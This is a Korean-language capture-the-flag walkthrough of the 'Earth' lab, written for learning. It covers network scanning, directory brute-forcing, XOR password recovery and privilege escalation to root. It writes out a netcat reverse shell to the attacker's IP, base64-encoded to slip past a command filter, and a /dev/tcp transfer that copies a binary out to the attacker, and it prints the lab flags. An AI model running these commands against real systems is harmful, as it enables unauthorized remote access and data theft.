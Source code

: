 ## 정보수집
---
### Scaning
- <공격대상의 IP를 찾는 방법_1> `netdiscover -r 192.168.56.0/24`
  `-r`: 대역 옵션
- <공격대상의 IP를 찾는 방법_2> `nmap 192.168.56.0/24`
  ![[Pasted image 20240925151310.png]]
  - 스캔 결과로 출력된 값들 중 원하는 공격 대상 지정
    (간단하게 mac주소를 기준으로 지정)
    ![[Pasted image 20240925151423.png]]
	- "공격 대상의 IP: 192.168.56.103"로 지정
	- ping으로 통신이 원활한지 점검
nmap을 활용한 더 자세한 scaning	
	`-sV`: 
	`-v`: 자세한 내용 출력
	`-p`: 포트 지정 (-p 80)
	`-p-`: 포트 활성화 여부 확인
- `nmap 192.168.56.103 -sV -v -p-`
  ![[Pasted image 20240925152403.png]]
  - 무엇으로 점검했는지 서비스 중인 포트는 무엇인지 서비스의 버전은 얼마인지 알 수 있다.
- 알아낸 정보를 바탕으로 서버에 접속한다.(http/https 서비스를 활용해 접근)  ![[Pasted image 20240925152735.png]]
  (ssh 접속도 가능하다)![[Pasted image 20240925152944.png]]
  "22/80/443 port 및 서비스 활성화 확인"-> IP 별 소득은 없음

`dirb http://192.168.56.103`
- 웹 페이지에 생성될 가능성이 있는 모든 디렉토리 이름 대입하여 결과 출력
  ![[Pasted image 20240925153425.png]]
  - 권한 문제로 접속이 불가능한 것을 확인(결과는 https 도 같았다)
    ![[Pasted image 20240925153513.png]]
- 웹 페이지에서 상세정보 보기를 통해 추가 정보를 획득![[Pasted image 20240925153947.png]]
  https > certification
  - earth.local / terratest.earth.local 서버의 도메인을 찾았다.
    (하지만 두 도메인으로 접속 불가, DNS가 없기 때문)
    - ![[Pasted image 20240925154616.png]]
      호스트 등록

서비스를 사용해 본다.![[Pasted image 20240925154952.png]]
- 키를 주지 않고 메시지를 보내는 것은 불가능![[Pasted image 20240925155027.png]]
- 키를 주자 메시지가 추가되었다.
- 내가 작성한 키로 메시지가 암호화 되었다.(서비스의 기능을 알 수 있게되었다.)

도메인 이름을 활용해 dirb 명령어 추가 실행
- `dirb http://earth.local`
  ![[Pasted image 20240925155430.png]]
- `http://earth.local/admin`으로 접속해 볼 수 있다는 것을 알게 되었다.![[Pasted image 20240925155942.png]]![[Pasted image 20240925160008.png]]
- `dirb https://terratest.earth.local/`에 새로운 파일이 확인되었다.![[Pasted image 20240925160355.png]]![[Pasted image 20240925160647.png]]![[Pasted image 20240925160706.png]]
  [[robots.txt]]
- `/testingnotes.*`가 허용된 것을 확인 접속을 시도한다.![[Pasted image 20240925161048.png]]![[Pasted image 20240925161214.png]]
- terra라는 사용자가 로그인할 때 testdata.txt파일을 활용해 로그인하고 암호화는 xor 방식이라는 것을 알게되었다.
- `https://terratest.earth.local/testdata.txt`![[Pasted image 20240925161446.png]]
- https://gchq.github.io/CyberChef/ 사이트를 활용해 복호화 시도![[Pasted image 20240925162816.png]]
  - 암호화에 사용되는 키 값 입력하고 암호화 결과물을 인풋에 입력
- `earthclimatechangebad4humans`
- 찾은 값을 활용해 로그인 시도![[Pasted image 20240925163151.png]]
- 접속을 갖게 되었다.![[Pasted image 20240925163213.png]]
- `cat /var/earth_web/user_flag.txt`에서 user flag를 획득했다.![[Pasted image 20240925163653.png]]
  `[user_flag_3353b67d6437f07ba7d34afd7d2fc27d]`
- putty로 접속하면 로그가 남으니 웹에서 작업을 지속

[[netcat]] 원격 접속을 하여 명령어를 실행할 수 있는 툴
- `nc -lvnp 4444` 칼리의 4444 포트를 열어 서버 사용자가 칼리 서버에 접속하도록 유도
  (아무 포트나 가능)
- `nc -e /bin/bash 192.168.56.102 4444`(이때 IP는 공격자 IP)![[Pasted image 20240925164333.png]]
- 위 명령어를 직접 입력해서는 접속할 수 없다. (암호화를 작업 진행)![[Pasted image 20240925165021.png]]
- 암호화된 명령어 입력
  `echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMTAzIDQ0NDQK' | base64 -d | bash`![[Pasted image 20240925165056.png]]
- 쉘을 가져오게 되었다.![[Pasted image 20240925170242.png]]
- `find / -perm -u=s -type f 2>/dev/null` ![[Pasted image 20240925170451.png]]
- `file /usr/bin/reset_root` 실행안됨
- `nc -lvnp 3333 > reset_root` 다른쉘에서 실행하고 웹 페이지로 이동![[Pasted image 20240925170741.png]]
- `cat /usr/bin/reset_root > /dev/tcp/192.168.56.102/3333`![[Pasted image 20240925170947.png]]
```
kali
nc -lvnp 4444
cli
nc -e /bin/bash kali ip 4444 -> netcat을 통한 연결 실패
암호화 진행
kali
echo 'nc -e /bin/bash kali ip 4444' | base64 -> 암호화된 내용 복사
cli
echo '암호화된 내용' | base64 -d | bash -> 칼리에서 연결 확인

kali netcat
whoami
find / -perm -u=s -type f 2>/dev/null -> apache 사용자로 실행할 수 있는 관리자 파일 검색 -> reset_root 파일 확인
file reset_root 및 reset_root 실행 시 안됨 

kali 다른 터미널 
nc -lvnp 3333 > reset_root
cli 
cat /usr/bin/reset_root > /dev/tcp/kali ip/3333 -> 칼리에서 연결 확인(암호화해서 입력하면됨)

kali 터미널에서 reset_root 파일 존재 확인 - cat reset_root -> chmod 755 수정
ltrace ./reset_root -> 3개 파일 확인
netcat에서 3개 파일 생성
touch 경로+파일
reset_root 실행 -> 패스워드가 Earth로 변경
su root -> root로 접속
cd root
ls
root_flag.txt 확인 -> root 사용자의 flag 확인
```
![[{C3D5F161-A336-4C6D-9B32-0929D9E52BEA}.png]]![[{11163887-E97A-449B-BA64-8216940778B3}.png]]
